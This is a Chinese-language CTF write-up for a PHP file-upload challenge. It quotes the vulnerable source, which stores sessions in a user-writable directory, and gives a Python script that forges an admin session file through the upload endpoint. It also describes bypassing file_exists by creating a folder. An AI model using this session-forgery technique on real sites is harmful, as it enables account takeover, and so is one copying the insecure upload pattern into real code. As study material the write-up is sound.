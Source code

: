 tags:: [[CTFWEB/PHP/Session]]

- # 题目
	- 题目提供了上传和下载接口供用户上传和下载文件
	- 在此处绕过检测即可得到flag
		- ```php
		  if($_SESSION['username'] ==='admin') // 需要session伪造
		  {
		      // 检测success文件是否被创建
		      echo "you are admin.\n";
		      $filename='/var/babyctf/success.txt'; // 需要任意文件写入
		      var_dump(file_exists($filename));
		      if(file_exists($filename)){
		          echo "start deleting...\n";
		          // var_dump(safe_delete($filename));
		          die($flag);
		      }
		  }
		  else{
		      $_SESSION['username'] ='guest';
		  }
		  ```
- # 思路
	- 通过伪造session构造假admin身份
	- 通过写入文件夹绕过`file_exists`并获得flag
- # 伪造session
	- 向session文件夹写入文件即可
	- 本体的session格式为`'\x08usernames:5:"admin";'`
		- 注意前方要加`\x08`，没有`|`
	- 伪造session并返回PHPSESSID的代码
	  collapsed:: true
		- ```python
		  def upload_evil_session():
		  
		      session = requests.session()
		      r = session.get(url)
		      sessid = r.cookies["PHPSESSID"]
		      r = base_post(url, data = {
		          "direction": "download",
		          "attr": ".",
		          "filename": "sess_" + sessid
		      }, files = {
		          "up_file": ("a.txt", "123")
		      })
		      with open("test.html", "wb") as f:
		          f.write(r.content)
		      # print("downloaded:", r.text.rpartition("code>")[2])
		      payload = r.text.rpartition("code>")[2].replace("guest", "admin")
		      print(enc_dec.urlencode(payload))
		      payload = '\x08usernames:5:"admin";'
		      sha256_payload = enc_dec.sha256_encode(payload)
		      # evil_session_filename = "sess_" + sha256_payload
		      r = base_post(url, data = {
		          "direction": "upload",
		          "attr": "."
		      }, files = {
		          "up_file": ("sess", payload)
		      })
		      return sha256_payload
		  ```
- # 绕过`file_exists`
	- 注意到可以创建任意文件夹
	- 我们只需要创建一个名为`success.txt`的文件夹即可
- # 题目源码以及分析
	- 代码以及初步分析
	  collapsed:: true
		- ```php
		  <?php
		  
		  error_reporting(0);
		  session_save_path("/var/babyctf/"); // 这里为session伪造提供了便利性
		  session_start();
		  
		  require_once "flag.php";
		  highlight_file(__FILE__);
		  if($_SESSION['username'] ==='admin') // 需要session伪造
		  {
		      // 检测success文件是否被创建
		      echo "you are admin.\n";
		      $filename='/var/babyctf/success.txt'; // 需要任意文件写入
		      var_dump(file_exists($filename));
		      if(file_exists($filename)){
		          echo "start deleting...\n";
		          // var_dump(safe_delete($filename));
		          die($flag);
		      }
		  }
		  else{
		      $_SESSION['username'] ='guest';
		  }
		  
		  // filter_input默认不会做任何事情
		  // direction: upload|download
		  $direction = filter_input(INPUT_POST, 'direction');
		  // attr: 文件夹名
		  $attr = filter_input(INPUT_POST, 'attr');
		  
		  // 构造$dir_path
		  $dir_path = "/var/babyctf/".$attr;
		  if($attr==="private"){
		      $dir_path .= "/".$_SESSION['username'];
		  }
		  
		  
		  if($direction === "upload"){// 上传文件
		      try{
		          // 判断是否在上传
		          if(!is_uploaded_file($_FILES['up_file']['tmp_name'])){
		              throw new RuntimeException('invalid upload');
		          }
		          // 构造file_path: 
		          // filepath = {dir_path}/{name}_{hash}
		          $file_path = $dir_path."/".$_FILES['up_file']['name'];
		          $file_path .= "_".hash_file("sha256",$_FILES['up_file']['tmp_name']);
		          var_dump($file_path);
		          // 过滤file_path
		          if(preg_match('/(\.\.\/|\.\.\\\\)/', $file_path)){
		              throw new RuntimeException('invalid file path');
		          }
		          // 创建文件夹并移动文件
		          @mkdir($dir_path, 0700, TRUE);
		          if(move_uploaded_file($_FILES['up_file']['tmp_name'],$file_path)){
		              $upload_result = "uploaded";
		          }else{
		              throw new RuntimeException('error while saving');
		          }
		      } catch (RuntimeException $e) {
		          $upload_result = $e->getMessage();
		      }
		  } elseif ($direction === "download") {
		      try{
		          // 获取filename并构造file_path
		          $filename = basename(filter_input(INPUT_POST, 'filename'));
		          $file_path = $dir_path."/".$filename;
		          var_dump($file_path);
		          // 过滤file_path
		          if(preg_match('/(\.\.\/|\.\.\\\\)/', $file_path)){
		              throw new RuntimeException('invalid file path');
		          }
		          // 检测需要下载的文件是否存在
		          if(!file_exists($file_path)) {
		              throw new RuntimeException('file not exist');
		          }
		          // 发送文件
		          header('Content-Type: application/force-download');
		          header('Content-Length: '.filesize($file_path));
		          header('Content-Disposition: attachment; filename="'.substr($filename, 0, -65).'"');
		          if(readfile($file_path)){
		              $download_result = "downloaded";
		          }else{
		              throw new RuntimeException('error while saving');
		          }
		      } catch (RuntimeException $e) {
		          $download_result = $e->getMessage();
		      }
		      exit;
		  }
		  ?>
		  ```